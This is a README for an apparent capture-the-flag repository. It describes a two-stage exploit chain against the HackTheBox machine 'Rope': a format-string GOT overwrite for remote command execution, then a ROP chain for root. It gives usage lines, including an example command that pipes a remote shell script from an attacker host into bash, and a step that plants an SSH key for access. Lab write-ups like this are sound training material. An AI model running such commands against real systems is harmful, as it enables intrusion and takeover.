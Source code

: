 # Full Exploit Chain – Remote Initial Access & Local Privilege Escalation

This repository contains a two-stage exploit chain targeting HackTheBox machine "Rope". A full root shell can be obtained by following the steps listed below.

---

## Structure

* `initial_access/exploit.py`: Remote exploit targeting a vulnerable custom webserver using a format string vulnerability.
* `local_privilege_escalation/exploit.py`: Local privilege escalation targeting a vulnerable local service using stack brute-force and ROP.

---

## Remote Initial Access

**File:** `initial_access/exploit.py`
</br>
**Vulnerability:** `Arbitrary file read and format string to overwrite puts@GOT with system@LIBC and execute an arbitrary system command.`

### Usage

```bash
python3 exploit.py <TARGET_IP> <TARGET_PORT> "<SHELL_CMD>"
```

### Description

1. Leaks PIE and LIBC base via `/proc/self/maps` using an arbitrary file read vulnerability.
2. Calculates the address of `puts@GOT` and `system@LIBC`.
3. Overwrites `puts@GOT` using a format string payload.
4. Executes a base64-encoded shell command.

### Example

```bash
python3 exploit.py 10.10.10.10 8080 "curl http://10.10.14.1/shell.sh | bash"
```

---

## Local Privilege Escalation

**File:** `local_privilege_escalation/exploit.py`
</br>
**Vulnerability:** `Stack based buffer overflow and information disclosure via brute force leading to executing a ROP chain that duplicates socket file descriptors to stdin/stdout and spawns a shell.`

### Setup

1. Add your SSH public key to any writable user's `~/.ssh/authorized_keys`.
2. Forward port 1337 from the target to your system:

```bash
ssh -L 1337:localhost:1337 -i <KEY> <USER>@<TARGET>
```

### Usage

```bash
python3 exploit.py
```

### Description

1. Brute-forces the stack canary byte-by-byte.
2. Brute-forces the saved return address byte-by-byte.
3. Leaks `write@libc` to resolve libc base.
4. Constructs a ROP chain to:
   * Duplicate socket to stdin/stdout
   * Invoke `execve("/bin/sh", 0, 0)`
5. Spawns an interactive shell as the root user.

## Requirements

* Python 3.x
* [pwntools](https://github.com/Gallopsled/pwntools)

Install dependencies with:

```bash
pip3 install pwntools
```

